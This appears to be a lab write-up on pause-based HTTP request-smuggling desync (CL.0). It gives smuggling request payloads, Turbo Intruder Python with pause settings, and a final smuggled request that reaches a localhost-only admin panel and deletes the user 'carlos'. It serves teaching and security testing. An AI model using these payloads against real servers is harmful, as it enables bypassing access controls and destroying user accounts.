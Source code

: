 There are many quite secure websites that can contain hidden desync vulnerabilities that can be revealed if you pause mid-request.

Servers usually are configured with a read timeout, and if they don't receive any more data for an amount of time, they treat the request as complete and issue a response. This regardless of how many bytes they were told to expect.

Pause based desync vulnerabilities can occur when a server times out a request but leaves the connection open for reuse.

## Server-side pause-based desync

It is dependent on some conditions:
- Frontend must immediately forward each byte of the request to the backend rather than waiting until it has received the full request.
- Frontend must not time out requests before the backend.
- Backend must leave the connection open for reuse following a read timeout.

### Example

Let's consider a CL.0 request smuggling attack scenario:

```http
POST /example HTTP/1.1
Host: vulnerable-website.com
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 34

GET /hopefully404 HTTP/1.1
Foo: x
```

Now, what happens if we send the headers, but pause before sending the body?

- Frontend forwards the headers to the backend, and waits for the remaining bytes.
- After some time, backend times out and sends a response, and now the frontend may or may not read this response and forward to us.
- We send the body, which has a request smuggling prefix.
- Frontend treats this as a continuation of the initial request and forwards this to the backend down the same connection.
- Backend has responded to the initial request, so now thinks that these bytes are another request.

### Testing for pause based CL.0

In Repeater, create a CL.0 request smuggling probe like the one above, send it to `Turbo Intruder`.

In `Turbo Intruder`'s Python editor, adjust the request engine configuration to the following options:

```text
concurrentConnections=1
requestsPerConnection=100
pipeline=False
```

Queue the request and add the following arguments to the `queue()` interface:

`pauseMarker` - A list of strings after which you want to pause.
`pauseTime` - pause in ms.

Queue an arbitrary follow-up request as normal:

`followUp = 'GET / HTTP/1.1\r\nHost: vulnerable-website.com\r\n\r\n' engine.queue(followUp)`

Be sure that you are logging all the responses:

```python
def handleResponse(req, interesting):
    table.add(req)
```

# Exploiting pause-based desync attacks

The frontend streamas requests to the backend, and the backend doesn't close hte connection after a timeout on some endpoints.

The goal is to identify a pause-based CL.0 desync vector, smuggle a request to the admin at `/admin` and delete the user `carlos`.

Find an on-site redirect, and in our case is `lab.com/resources` which redirects to `lab.com/resources/`

Install `Turbo Intruder` extension, and send his request to the Turbo Intruder.

Change the request to `POST` and add a smuggled request like in CL.0, that tries to access `/admin/`. Also don't forget to add `Connection: keep-alive`.

```http
POST /resources HTTP/1.1
Host: lab.net
Cookie: session =...
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

GET /admin/ HTTP/1.1
Host: lab.net
```

And modify the `Python` code part as follows:

```Python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           requestsPerConnection=500,
                           pipeline=False
                           )

    engine.queue(target.req, pauseMarker=['\r\n\r\n'], pauseTime=61000)
    engine.queue(target.req)

def handleResponse(req, interesting):
    table.add(req)
```


In the first request we got a `302` and in the second there is a `401 Unauthorized` and `Admin interface only available to local users`.

In this case let's put `localhost` in the Host of the smuggled request.

And we're inside the admin panel, where it asks us for a username and there is a button to `Delete user`:

![](../../../../images/Pasted image 20250120145134.png)

But for that our smuggled request needs to be a `POST` and not a `GET`. In the `HTML` that was returned we got a lot of information such as `csrf, action`.

Now let's edit our smuggled request:

```http
POST /resources HTTP/1.1
Host: 0a4b00750429868981989d94007c001a.web-security-academy.net
Cookie: session=FpdxixgCl7dcLByFAvM9TGGuxbqjCn2q
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 171

POST /admin/delete/ HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 53

csrf=KnKcB6Gamprqao6cSwbz2MzUMQ3CTpvq&username=carlos
```

Very important is the `Content-Length` as you need to calculate for both the body of the smuggled request which in this case is 53, and the complete body of the first request which is 171.

Then in the Python code, change the `pauseMarker`:

```python
...
engine.queue(target.req, pauseMarker=['Content-Length: 171\r\n\r\n'], pauseTime=61000)
...
```

This, because if we leave as before with `\r\n\r\n` then it will pause two times, and we have to differentiate between them.

Now send it, and the response to the second request is:

```http
HTTP/1.1 302 Found
Location: /
Set-Cookie: session=cQBLRASV9VznhaGMEnCibhhjLfieb8CL; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Server: Apache/2.4.52
Keep-Alive: timeout=120
Content-Length: 0
```

Meaning that the user `carlos` has been deleted, and the lab has been solved.
